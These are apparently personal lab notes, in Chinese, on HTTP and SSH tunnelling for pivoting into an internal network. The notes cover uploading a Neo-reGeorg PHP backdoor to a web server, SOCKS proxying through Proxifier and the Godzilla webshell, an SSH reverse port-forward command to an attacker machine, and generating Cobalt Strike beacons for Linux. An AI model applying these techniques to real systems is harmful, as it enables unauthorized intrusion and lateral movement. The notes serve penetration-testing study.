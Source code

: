 
# 隧道技术 http ssh

ssh目前只能通讯，不能上线，目前没有c2工具能利用ssh上线。     [192.168.2.11](http://192.168.2.11/) 192.168.139.222 都是web机。


# http:

ss
http隧道上线一般意义不大，能通过http上线就能通过正反向上线

![1732609043452](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942064.png)

在情况1下，无法通过c2上线控制web机。因为入站只有web端口：80或者443，这两个端口都被占用，所以只能通过webshell工具来控制web机，而且也没有办法通过Web机控制sql，因为web的出站被限制。所以就需要通过隧道技术来实现让sql跟web机连接        这里是通过Web来建立隧道获取sql机上的有价值信息

  看防火墙配置，这里本机只能访问192.168.139.222       2.11 和 2.22 都访问不到     同一个网段好像可以不用看防火墙就能访问，不在同一个网段就得看防火墙策略。

eg: 192.168.139.1 可以访问192.168.139.2     如果192.168.139.2还有一个网段是192.168.2.2  那么192.168.139.1访问192.168.2.2 是访问不到的

![1732618408454](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942065.png)

![1732619300723](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942066.png)

  HTTP隧道搭建内网穿透    Neo-reGeorg-5.2.0工具使用说明，现在是用工具脚本创建一个socks代理。

![1732617986195](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942067.png)

这里将刚才用工具生成的php后门上传到可以通讯的web服务器192.168.139.222  上：

![1732618278013](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942068.png)

socks代理：

![1732618686942](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942069.png)

配置代理------Proxifier

![1732618847723](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942070.png)

然后就访问成功：

![1732619184404](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942071.png)

隧道实现成功

  哥斯拉，冰鞋；冰鞋：本机用隧道技术实现将目标端口（sql）80转发到本地端口2222上，先在本地上线到可以通讯的web机上，然后在信息收集到sql机，利用内网穿透，隧道技术实现

冰鞋复现失败，虚拟机问题：

![1732624362316](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942072.png)

   哥斯拉

端口映射，本地访问远程端口数据 主动转发出来  建立socks代理，连接socks对内网穿透

这里关闭刚才的socks和Proxifier代理：

![1732624587566](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942073.png)

然后哥斯拉连接上web，使用httpProxy：

##### ![1732624748652](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942074.png)

配置代理，访问192.168.2.22   成功

![1732624869350](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942075.png)

  上线c2

http一般不用来上线，http能上线的话，那么正反向也可以用来上线，一般都会用正反向来实现上线。http隧道一般用来信息收集，主要还是因为http在tcp层。

   ssh

​    首先是被控机跟目标机之间能通讯、让被控机(kali2)将内网机(sql)的80端口流量转发到攻击机(kali)上的1234端口，这里就是攻击机访问自己的1234端口，就等于被控机访问内网机的80端口。不过这里需要配置好环境，在腾讯文档中                                                                                           		ssh -CfNg -R 攻击机端口:内网目标机IP:80 root@攻击机ip                     

  	cs工具默认不支持linux mac  ios andior等这些机器上线，这里需要用到插件才支持这些操作系统上线，用插件生成后门文件后上传到目标系统机上执行。

先将两个文件上传到cs服务器，在向cs里导入脚本：

![1732625412067](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942076.png)

配置生成：

![1732625591959](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942077.png)

在事件日志这儿会有生成后门文件的命令：

![1732625633943](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942078.png)

生成后门，这里是生成的linux系统的上线文件：

![1732625793578](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942079.png)

执行上线文件，成功linux系统（kali ）上线：

![1732625831874](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942080.png)
